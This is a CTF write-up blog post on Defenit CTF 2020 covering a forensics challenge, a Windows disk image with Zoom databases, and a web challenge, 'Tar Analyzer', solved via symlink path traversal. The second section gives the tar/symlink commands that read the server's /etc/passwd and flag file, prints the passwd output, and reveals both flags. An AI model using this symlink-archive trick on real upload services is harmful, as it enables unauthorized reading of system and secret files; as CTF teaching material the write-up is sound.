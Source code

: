 ```yaml
---
title: Defenit CTF 2020 Writeup
published: true
---
```


I played with CTF.SG last weekend and we achieved 10th in the rankings although we didn't even solve a single pwn!

---

# Find Tangential Cipher

#### Category: Forensics | 3 solves | 857 points

We first-blooded this challenge thanks to my teammate Kenneth!

We are given a [Google Drive link](https://drive.google.com/drive/folders/1oQYvJnbOou5TUXaV1ApoQnP6S_Vj8pbI) with 9 files, named `Evidence.E01-8` and `Evidence.E01.txt`. The total file size is about 12 GB, so please check the link (if it is still alive) if  you want to try the challenge.

From the txt file, we can figure out that it's a physical image of a Windows system.

Opening up the image for browsing, we are greeted with different volumes. 

![Volume Partitions](/assets/defenit-2020/forensics/find-tangential-cipher/vol-partitions.png)

We tried them in order, starting from the first Basic data partition (vol 4) and finding that it's got nothing interesting.

![Volume 4](/assets/defenit-2020/forensics/find-tangential-cipher/vol-4-partition.png)

Moving on to the next basic data partition on vol 7, we find something we're much more acquainted with - the `C:\` Drive Windows Filesystem!

![Volume 7](/assets/defenit-2020/forensics/find-tangential-cipher/vol-7-partition.png)

Browsing around, we started with Appdata, going down the Default (skeleton) user and all the way down to `/User/secre` which seems to be the main user on this machine. We find many files, but nothing too interesting - until we reached the end of Appdata. There was this Zoom database where the `firstName:lastName` of a user was `man:suspect`.

![Zoom-Man-Suspect](/assets/defenit-2020/forensics/find-tangential-cipher/zoom-suspect-man.png)

We knew we were up to something now.

Moving on to the next db in the same folder, we found the message log in the first table of the db. As you can see in the image below, it goes like this:

![Zoom-Tangential-Hint](/assets/defenit-2020/forensics/find-tangential-cipher/zoom-tangential-file.png)

```
Hello
Long Time No See
We're dealing with weapons
I want you to go to the meeting place and get it yourself.
The Tangential Cipher is in the File.
Then, I'll ask you.
```

The next db file only showed the xmpp id, so we skipped that. 

However, going back to the first db in the folder, in the `zoom_mm_file` table, we found a `url` column that looked suspiciously like the `objkey` in a Zoom download link. 

![Zoom-File-ID](/assets/defenit-2020/forensics/find-tangential-cipher/zoom-file-id.png)

Putting that together into a link, we get a file shown below (I think `zfk` is my token so I'm not pasting the link here)

![Zoom-File-Binary](/assets/defenit-2020/forensics/find-tangential-cipher/zoom-file-binary.png)

As the table mentioned that it was a `Secret.docx` file, we use `curl -o flag.docx <URL>` to download it and open it in Microsoft Word.

And we got the flag!

![Flag](/assets/defenit-2020/forensics/find-tangential-cipher/flag.png)


<details>
  <summary>FLAG</summary>
  
  Mr_K_1_W@nT_Cola!!
</details>


---

# Tar Analyzer

#### Category: Web | 278 points

#### Description     
Our developer built simple web server for analyzing tar file and extracting online. He said server is super safe. Is it?

#### Server     
http://tar-analyzer.ctf.defenit.kr:8080/

#### Attachments    
[tar-analyzer.tar.gz](//github.com/Isopach/CTF-Writeup/blob/master/Defenit-2020/Web/Tar-Analyzer/tar-analyzer.tar.gz)

------------------------

We found the unintended solution for this.

Using the symbolic link vector, a common zip file unpacking vulnerability, we first tried to read the `/etc/passwd`.

```
ln -s ../../../etc/passwd aaa
tar -cvf test.tar aaa
```

This returns the `/etc/passwd` on the server as follows.

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
analyzer:x:1000:1000:Linux User,,,:/home/analyzer:
```

Hence we tried to guess the filename, starting with the common `flag.txt`.


```
ln -s ../../../flag.txt aaa
tar -cvf test.tar aaa
```

And done! We got the flag just like that.

<details>
  <summary>FLAG</summary>
  
  Defenit{R4ce_C0nd1710N_74r_5L1P_w17H_Y4ML_Rce!}
</details>

